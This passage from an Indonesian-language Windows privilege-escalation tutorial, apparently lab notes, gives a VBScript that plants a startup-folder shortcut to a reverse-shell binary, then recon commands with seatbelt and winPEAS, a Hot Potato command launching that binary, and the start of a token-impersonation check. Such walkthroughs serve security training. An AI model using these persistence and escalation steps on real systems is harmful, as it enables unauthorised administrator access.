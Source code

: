Buat file dengan nama `CreateShortcut.vbs`, lalu paste kode berikut :
```
Set oWS = WScript.CreateObject("WScript.Shell")
sLinkFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\reverse.lnk"
Set oLink = oWS.CreateShortcut(sLinkFile)
oLink.TargetPath = "C:\PrivEsc\reverse.exe"
oLink.Save
```

Yang perlu diperhatikan adalah `oLink.TargetPath`, yaitu path aplikasi yang kita miliki . Lalu jalankan script. 

```
cscript CreateShortcut.vbs
```

Tinggal menunggu restart dari administrator, maka secara otomatis file shortcut yang kita buat akan berjalan. 

## Installed Applications
Kita bisa exploit aplikasi yang terinstall di windows. Untuk mencari exploit priv esc bisa lihatdi exploit-db atau web lainnya. As soon as kita dapatkan exploitnya, maka kita bisa jalankan di windows. 

#### Recon
Melihat task yg sedang berjalan
```
tasklist /V
```
Terkadang ada aplikasi non-standard yang biasanya aplikasi ini memiliki celah keamanan. Untuk cek aplikasi non-standard,kita bisa gunakan tool seatbelt.exe
```
.\seatbelt.exe NonstandardProcesses
```
Kita juga bisa pakai winpeas
```
winPEASany.exe quiet processinfo
```

## Hot Potato
```
.\potato.exe -ip <ip_local_windows> cmd "C:\PrivEsc\reverse.exe" -enable_httpserver true -enable_defender true -enable_spoof true -enable_exhaust true
```

## Token Impersonate

Windows menggunakan Token sebagai Identifier untuk setiap pengguna. Token ini di generate saat login. Ada celah keamanan dimana user biasa bisa melakukan priv esc bilamana user kita saat ini memiliki permission seDebugPrivilege dan SeImpersonatePrivilege

Untuk cek apakah user kita saat ini bisa impersonate token

cek di CMD :
`whoami /priv`
